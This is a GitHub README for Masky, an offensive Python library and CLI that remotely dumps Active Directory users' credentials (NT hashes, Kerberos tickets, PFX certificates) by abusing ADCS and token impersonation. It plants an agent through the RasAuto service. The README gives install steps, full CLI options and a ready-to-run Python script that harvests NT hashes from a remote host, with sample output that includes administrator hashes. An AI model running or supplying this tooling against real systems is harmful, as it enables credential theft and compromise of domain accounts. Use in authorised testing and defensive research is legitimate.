 # Masky

[![PyPI version](https://badge.fury.io/py/masky.svg)](https://badge.fury.io/py/masky)
[![Twitter](https://img.shields.io/twitter/follow/_ZakSec?label=Zak&style=social)](https://twitter.com/intent/follow?screen_name=_ZakSec)

Masky is a python library providing an alternative way to remotely dump domain users' credentials thanks to an ADCS. A command line tool has been built on top of this library in order to easily gather PFX, NT hashes and TGT on a larger scope.

This tool does not exploit any new vulnerability and does not work by dumping the LSASS process memory. Indeed, it only takes advantage of legitimate Windows and Active Directory features (token impersonation, certificate authentication via kerberos & NT hashes retrieval via PKINIT). A [blog post](https://z4ksec.github.io/posts/masky-release-v0.0.3/) was published to detail the implemented technics and how Masky works.

Masky source code is largely based on the amazing [Certify](https://github.com/GhostPack/Certify) and [Certipy](https://github.com/ly4k/Certipy) tools. I really thanks their authors for the researches regarding offensive exploitation technics against ADCS (see. [Acknowledgments section](#acknowledgements)). 

## Installation

Masky python3 library and its associated CLI can be simply installed via the public PyPi repository as following:
```
pip install masky
```

The Masky agent executable is already included within the PyPi package.

Moreover, if you need to modify the agent, the C# code can be recompiled via a Visual Studio project located in `agent/Masky.sln`. It would requires `.NET Framework 4` to be built.

## Usage

Masky has been designed as a Python library. Moreover, a command line interface was created on top of it to ease its usage during pentest or RedTeam activities.

For both usages, you need first to retrieve the FQDN of a `CA server` and its `CA name` deployed via an ADCS. This information can be easily retrieved via the `certipy find` option or via the Microsoft built-in `certutil.exe` tool. Make sure that the default `User` template is enabled on the targeted CA.

Warning: Masky deploys an executable on each target via a modification of the existing `RasAuto` service. Despite the automated roll-back of its intial `ImagePath` value, an unexpected error during Masky runtime could skip the cleanup phase. Therefore, do not forget to manually reset the original value in case of such unwanted stop.

### Command line

The following demo shows a basic usage of Masky by targeting 4 remote systems. Its execution allows to collect NT hashes, CCACHE and PFX of 3 distincts domain users from the sec.lab testing domain.

<p align="center">
  <img src="./assets/masky_demo.gif" alt="Masky CLI demo" />
</p>


Masky also provides options that are commonly provided by such tools (thread number, authentication mode, targets loaded from files, etc. ).

```
  __  __           _
 |  \/  | __ _ ___| | ___   _
 | |\/| |/ _` / __| |/ / | | |
 | |  | | (_| \__ \   <| |_| |
 |_|  |_|\__,_|___/_|\_\__,  |
  v0.0.3                 |___/

usage: Masky [-h] [-v] [-ts] [-t THREADS] [-d DOMAIN] [-u USER] [-p PASSWORD] [-k] [-H HASHES] [-dc-ip ip address] -ca CERTIFICATE_AUTHORITY [-nh] [-nt] [-np] [-o OUTPUT]
             [targets ...]

positional arguments:
  targets               Targets in CIDR, hostname and IP formats are accepted, from a file or not

options:
  -h, --help            show this help message and exit
  -v, --verbose         Enable debugging messages
  -ts, --timestamps     Display timestamps for each log
  -t THREADS, --threads THREADS
                        Threadpool size (max 15)

Authentication:
  -d DOMAIN, --domain DOMAIN
                        Domain name to authenticate to
  -u USER, --user USER  Username to authenticate with
  -p PASSWORD, --password PASSWORD
                        Password to authenticate with
  -k, --kerberos        Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters.
  -H HASHES, --hashes HASHES
                        Hashes to authenticate with (LM:NT, :NT or :LM)

Connection:
  -dc-ip ip address     IP Address of the domain controller. If omitted it will use the domain part (FQDN) specified in the target parameter
  -ca CERTIFICATE_AUTHORITY, --certificate-authority CERTIFICATE_AUTHORITY
                        Certificate Authority Name (SERVER\CA_NAME)

Results:
  -nh, --no-hash        Do not request NT hashes
  -nt, --no-ccache      Do not save ccache files
  -np, --no-pfx         Do not save pfx files
  -o OUTPUT, --output OUTPUT
                        Local path to a folder where Masky results will be stored (automatically creates the folder if it does not exit)
```

### Python library

Below is a simple script using the Masky library to collect secrets of running domain user sessions from a remote target.

```python
from masky import Masky
from getpass import getpass


def dump_nt_hashes():
    # Define the authentication parameters
    ca = "srv-01.sec.lab\sec-SRV-01-CA"
    dc_ip = "192.168.23.148"
    domain = "sec.lab"
    user = "askywalker"
    password = getpass()

    # Create a Masky instance with these credentials
    m = Masky(ca=ca, user=user, dc_ip=dc_ip, domain=domain, password=password)

    # Set a target and run Masky against it
    target = "192.168.23.130"
    rslts = m.run(target)

    # Check if Masky succesfully hijacked at least a user session
    # or if an unexpected error occured
    if not rslts:
        return False

    # Loop on MaskyResult object to display hijacked users and to retreive their NT hashes
    print(f"Results from hostname: {rslts.hostname}")
    for user in rslts.users:
        print(f"\t - {user.domain}\{user.name} - {user.nt_hash}")

    return True


if __name__ == "__main__":
    dump_nt_hashes()
```

Its execution generate the following output.

```
$> python3 .\masky_demo.py
Password:
Results from hostname: SRV-01
         - sec\hsolo - 05ff4b2d523bc5c21e195e9851e2b157
         - sec\askywalker - 8928e0723012a8471c0084149c4e23b1
         - sec\administrator - 4f1c6b554bb79e2ce91e012ffbe6988a
```

A `MaskyResults` object containing a list of `User` objects is returned after a successful execution of Masky. 

Please look at the `masky\lib\results.py` module to check the methods and attributes provided by these two classes.


## Acknowledgments

- [Olivier Lyak](https://twitter.com/ly4k_) for the [Certipy](https://github.com/ly4k/Certipy) tool and the [associated articles](https://medium.com/@oliverlyak)
- [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) for the [Certify](https://github.com/GhostPack/Certify) tool and the [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) article
- [Dirk-jan](https://twitter.com/_dirkjan) for the [PKINITtools](https://github.com/dirkjanm/PKINITtools) and its [ADCS NTLM relay](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/) article
- [SecureAuthCorp](https://github.com/SecureAuthCorp) and the associated contributors for the [Impacket](https://github.com/SecureAuthCorp/impacket) library
- [Pixis](https://twitter.com/HackAndDo) for the tool [Lsassy](https://github.com/Hackndo/Lsassy)
- Incognito tool and its [Metasploit implementation](https://github.com/rapid7/metasploit-payloads/blob/master/c/meterpreter/source/extensions/incognito/)
- [S3cur3Th1sSh1t](https://twitter.com/ShitSecure) for the tool [SharpImpersonation](https://github.com/S3cur3Th1sSh1t/SharpImpersonation) and the [associated article](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)
- McAfee for their article regarding the [token impersonation techniques](https://www.mcafee.com/enterprise/en-us/assets/reports/rp-access-token-theft-manipulation-attacks.pdf)